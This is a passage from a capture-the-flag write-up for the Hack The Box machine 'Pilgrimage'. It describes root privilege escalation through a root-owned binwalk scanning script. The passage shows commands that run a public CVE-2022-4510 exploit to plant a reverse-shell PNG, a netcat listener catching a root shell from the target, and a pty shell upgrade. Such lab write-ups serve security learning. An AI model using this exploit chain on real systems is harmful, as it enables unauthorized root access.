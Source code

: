 This file is owned and executed by root and using binwalk scans the `/shrunk` directory looking for new files.


Looking up exploits for binwalk 2.3.2 we find a PoC we can use to string these findings together to escalate to root. https://github.com/adhikara13/CVE-2022-4510-WalkingPath


First, lets copy the Python exploit to the target, as well as a random .png image file.

Next we can run: 

```
emily@pilgrimage:/tmp$ python3 binwalk_exploit.py reverse dog.png 10.10.14.216 443
```

Which creates a file called binwalk_exploit.png which contains our reverse shell.

Setting up a netcat listener and copying the file to `/var/www/pilgrimage.htb/shrunk/` we catch a shell back as root:

```
┌──(ryan㉿kali)-[~/HTB/Pilgrimage]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.216] from (UNKNOWN) [10.129.96.154] 58756
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
hostname
pilgrimage
python3 -c 'import pty;pty.spawn("/bin/bash")'

root@pilgrimage:~/quarantine#
```

Where we can grab the final flag:

![pilgrimage_root_flag.png](../assets/pilgrimage_assets/pilgrimage_root_flag.png)

Thanks for following along!

-Ryan

------------------------------------------



